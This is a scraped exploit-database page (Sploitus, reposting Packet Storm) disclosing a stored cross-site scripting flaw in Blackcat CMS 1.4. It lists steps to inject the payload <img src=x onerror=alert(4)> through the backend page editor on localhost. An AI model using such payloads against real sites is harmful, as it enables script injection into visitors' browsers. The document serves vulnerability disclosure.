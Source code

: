 ```yaml
---
title: Blackcat CMS 1.4 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173611&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-21
fetch_date: 2025-10-04T11:51:41.818203
---
```


# Blackcat CMS 1.4 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Blackcat CMS 1.4 Cross Site Scripting

2023-07-20 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173611
Exploit Title: Blackcat Cms v1.4 - Stored XSS
Application: blackcat Cms
Version: v1.4
Bugs: Stored XSS
Technology: PHP
Vendor URL: https://blackcat-cms.org/
Software Link: https://github.com/BlackCatDevelopment/BlackCatCMS
Date of found: 13.07.2023
Author: Mirabbas Ağalarov
Tested on: Linux

2. Technical Details & POC
========================================
steps:

1. login to account
2. go to pages (http://localhost/BlackCatCMS-1.4/upload/backend/pages/modify.php?page_id=1)
3. set as <img src=x onerror=alert(4)>
4. Visit http://localhost/BlackCatCMS-1.4/upload/page/welcome.php?preview=1
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)